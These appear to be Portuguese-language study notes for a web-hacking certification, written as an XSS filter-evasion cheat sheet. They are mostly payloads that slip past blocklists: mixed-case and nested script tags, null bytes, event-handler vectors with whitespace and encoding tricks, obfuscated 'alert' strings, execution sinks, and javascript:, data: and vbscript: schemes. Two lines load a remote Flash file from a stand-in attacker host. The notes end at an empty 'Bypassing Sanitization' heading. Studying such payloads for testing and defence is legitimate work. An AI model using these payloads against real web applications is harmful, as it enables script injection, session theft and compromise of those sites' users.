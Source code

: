  #INE #WebHacking #eWPTX 

Os dois principais cheat sheet para XSS:

https://html5sec.org/
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

# Bypassing Blacklisting Filters

## Injecting Script Code

**Bypass no bloqueio da tag \<script>**

```html
<ScRiPt>alert(1)</ScRiPt>                  // Upper e Lower case
<ScRiPt>alert(1)                           // Upper e Lower sem fechar a tag
<script/random>alert(1);</script>          // Random string depois da tag name
<script                                    // Newline depois da tag name
>alert(1);</script>
<scr<script>ipt>alert(1)</scr<script>ipt>  // tags alinhadas
<scr\x00ipt>alert(1)</scr\x00ipt>          // NULL byte
```

**Bypass no bloqueio da tag \<script> usando atributos do HTML**

```HTML
<a href="javascript:alert(1)">show</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
<object data="//hacker.site/xss.swf">
<object data="//hacker.site/xss.swf" allowscriptaccess=always>
```

Nos dois últimos exemplos, pode-se usar no endereço essa ferramenta:

https://github.com/evilcos/xss.swf

**Bypass no bloqueio da tag \<script> usando eventos do HTML**

Normalmente o evento mais usado é o **onerror**:

```HTMl
<img src=x onerror=alert(1)>
```

Mas existem vários outros eventos que podem ser usados, uma lista com eles se encontra no link:

http://help.dottoro.com/lhwfcplu.php

Alguns exemplos:

```HTML
// HTML 4
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)">
<form oninput=alert(1)><input></form>
<textarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>

// HTML 5
<svg onload=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
```

É muito comum, do ponto de vista defensivo, bloquear eventos que comecem com on*, isso pode ser byppassado com:

```HTML
<svg/onload=alert(1)>
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
```

Algumas regras mais avançadas conseguem bloquear esses payloads, elas podem ser bypassadas com os seguintes exemplos:

```HTML
<svg onload%09=alert(1)> // Funciona em todos os browsers menos no Safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)> // IE somente
```

Uma lista de caracteres que podem ser usados entre o evento e o sinal de igual, ou antes do nome do evento:

```
IExplorer = [0x09,0x0B,0x0C,0x20,0x3B]
Chrome = [0x09,0x20,0x28,0x2C,0x3B]
Safari = [0x2C,0x3B]
FireFox = [0x09,0x20,0x28,0x2C,0x3B]
Opera = [0x09,0x20,0x2C,0x3B]
Android = [0x09,0x20,0x28,0x2C,0x3B]
```

Como os browsers estão em constante mudança, existe uma ferramenta que realiza o fuzzing para descobrir os caracteres que podem ser usados de acordo com a versão do browser

http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name
http://shazzer.co.uk/vector/Characters-allowed-brfote-attribute-name

## Keyword Based Filters

**Character scaping**

Imaginando um cenário onde a palavra **alert** está bloqueada (ignorando alternativas como prompt, confirm, etc...)

```HTML
<script>alert(1)</script> // Block

// Sem funções nativa
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

// Usando função nativa
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>

<img src=x onerror="alert(1)"/> // Block

<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>   // Octal
<img src=x onerror="eval('\x61lert(1)')"/>   // Hexadecimal
<img src=x onerror="&#x0061;lert(1)"/>       // Hexadecimal Reference
<img src=x onerror="&#97;lert(1)"/>          // Decimal NCR
<img src=x onerror="eval('\a\l\ert\(1\)')"/> // Superfluous escape
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>  // Todos juntos
```

**Construindo string**

```javascript
alert // Block

/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
17795081..toString(36)
```

**Execution Sinks**

Lista completa com todos os sinks:

https://code.google.com/archive/p/domxsswiki/wikis/ExecutionSinks.wiki

```javascript
setTimeout("JSCode")    // Todos os browsers
setInterval("JSCode")   // Todos os browsers
setImmediate("JSCode")  // IE 10+
Function("JSCode")      // Todos os browsers

[].constructor.constructor(alert(1))  // Variação de Function
```

**Pseudo-protocolos**

**javascript:**

javascript: é um URI scheme não oficial, usado para invocar código JavaScript com um link

```HTML
<object data="javascript:alert(1)"> // Block (javascript:)

<object data="JaVaScRiPt:alert(1)">
<object data="javascript&colon;alert(1)">
<object data="java
script:alert(1)">
<object data="javascript&#x003A;alert(1)">
<object data="javascript&#58;alert(1)">
<object data="&#x6A;avascript:alert(1)">
<object data="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;alert(1)">
```

Além do **javascript:** também existe o **data:** e o **vbscript:** (exclusivo do IE)

**data:**

Estrutura do data:

	data:[<mediatype>][;base64],<data>

```HTML
<object data="javascript:alert(1)">  // Block (javascript:)

<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">

<embed code="data:text/html,<script>alert(1)</script>">  // Block (data:)

<embed code="DaTa:text/html,<script>alert(1)</script>">
<embed code="data&colon:text/html,<script>alert(1)</script>">
<embed code="data&#x003A:text/html,<script>alert(1)</script>">
<embed code="&#x64;&#x61ta:text/html,<script>alert(1)</script>">
```

**vbscript:**

```HTML
<img src=a onerror="vbscript:msgbox 1"/>  // IE8
<img src=a onerror="vbs:msgbox 2"/>       // IE8
<img src=a onerror="vbs:alert(3)"/>       // IE Edge
<img src=a onerror="vbscript:alert(4)"/>  // IE Edge

<img src=x onerror="vbscript:alert(1)"/>  // Block (vbscript:)

<img src=x onerror="vbscript&#x003Aalert(1)"/>
<img src=x onerror="vb&#x63;cript:alert(1)"/>
<img src=x onerror="v&#00;bs&#00;cri&#00;pt:alert(1)"/>  // Null byte
```

# Bypassing Sanitization

